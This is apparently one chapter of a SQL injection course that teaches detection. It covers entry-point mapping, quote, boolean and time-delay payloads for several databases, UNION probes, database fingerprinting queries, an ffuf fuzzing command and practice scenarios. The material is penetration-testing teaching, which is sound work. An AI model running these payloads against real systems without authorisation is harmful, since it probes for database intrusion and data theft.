

# 02 - Detection Methods

## Systematic Detection Approach

Finding SQL injection requires methodical testing. Do not try random payloads — use a systematic framework.

## Phase 1: Reconnaissance

### Identify Entry Points

| Entry Point    | Example             |
| -------------- | ------------------- |
| URL Parameters | `/page?id=1`        |
| POST Body      | Form submissions    |
| HTTP Headers   | User-Agent, Referer |
| Cookies        | Session IDs         |
| JSON/XML API   | API endpoints       |

### Traffic Analysis

Use browser dev tools or Burp:

```
1. Open the target website
2. Interact with all forms and links
3. Capture requests with Burp/OWASP ZAP
4. Identify parameters passed to the server
```

## Phase 2: Initial Testing

### Test 1: Error-Based Detection

| Payload | Expected Result (Vulnerable)    |
| ------- | ------------------------------- |
| `'`     | SQL syntax error                |
| `''`    | No error (escaped quote)        |
| `\'`    | database-specific error         |
| `"`     | Error if double-quote delimiter |

**Example Response Analysis**:

```
Error: You have an error in your SQL syntax;
check the manual that corresponds to your
MySQL server version for the right syntax
to use near ''' at line 1
```

☑️ **Confirmed**: MySQL database, quote-based injection possible

### Test 2: Boolean-Based Detection

```
Original: /user?id=1

Test A: /user?id=1 AND 1=1        → Normal response
Test B: /user?id=1 AND 1=2        → Different response (no data)
Test C: /user?id=1' AND '1'='1    → Normal
Test D: /user?id=1' AND '1'='2    → Different
```

**Logic**: If Test A ≠ Test B, boolean injection exists.

### Test 3: Time-Based Detection

| Database   | Payload                      | Delay     |
| ---------- | ---------------------------- | --------- |
| MySQL      | `' OR SLEEP(5)--`            | 5 seconds |
| PostgreSQL | `'; SELECT pg_sleep(5)--`    | 5 seconds |
| MSSQL      | `'; WAITFOR DELAY '0:0:5'--` | 5 seconds |
| Oracle     | `' OR DBMS_LOCK.SLEEP(5)--`  | 5 seconds |

**Confirmation**: Response time ≥ delay = vulnerable

## Phase 3: Injection Type Determination

### Decision Tree



### Identify Blind vs Union

```
Test: id=1' UNION SELECT 1,2,3--

If shows extra numbers    → Union-based possible
If no change              → Blind injection
```

## Phase 4: Database Fingerprinting

### Quick Identification

| Test                      | MySQL | PostgreSQL | MSSQL | Oracle     |
| ------------------------- | ----- | ---------- | ----- | ---------- |
| `SELECT @@version`        | ✅    | ❌         | ❌    | ❌         |
| `SELECT version()`        | ❌    | ✅         | ❌    | ❌         |
| `SELECT @@VERSION`        | ❌    | ❌         | ✅    | ❌         |
| `SELECT * FROM v$version` | ❌    | ❌         | ❌    | ✅         |
| `SELECT 1/0`              | Error | Error      | ❌    | Error      |
| `'xy' OR 'x'='x'`         | Works | Works      | Works | Needs FROM |

## Automated Detection Tools

### Manual with ffuf

```bash
# Fuzz for SQLi indicators
ffuf -u "https://target.com/page?id=FUZZ" \
  -w /usr/share/wordlists/sqli-payloads.txt \
  -mr "error|syntax|mysql|sqlite"
```

## Common Error Signatures

| Error Contains  | Database   | Injection Type |
| --------------- | ---------- | -------------- |
| `mysql_fetch`   | MySQL      | PHP/MySQL      |
| `ORA-`          | Oracle     | Any app        |
| `Microsoft SQL` | MSSQL      | Any app        |
| `SQLite`        | SQLite     | Mobile/web     |
| `PostgreSQL`    | PostgreSQL | Any app        |
| `Syntax error`  | Generic    | Various        |

## Practice Scenarios

### Scenario 1: Login Form

```http
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=admin&password=password123
```

**Your task**: Create 3 payloads to test SQL injection in the username field.

### Scenario 2: API Endpoint

```http
GET /api/v1/users?id=1 HTTP/1.1
Authorization: Bearer token123
```

**Your task**: Design detection sequence to confirm injection.

### Scenario 3: Search Function

```
GET /search?q=laptop HTTP/1.1
```

Returns: JSON with array products

**Your task**: Determine if blind SQL injection is possible with JSON response.

## Detection Checklist

- [ ] Map all entry points (URL, forms, headers, cookies)
- [ ] Test single quote (`'`) on each parameter
- [ ] Analyze error messages for DB type
- [ ] Test boolean logic (`AND 1=1` vs `AND 1=2`)
- [ ] Test time delay payloads
- [ ] Determine injection type (Union vs Blind)
- [ ] Document all findings

## Next Step

Continue to [03 - Basic Exploitation](03-Basic-Exploitation.md) to start extracting data.
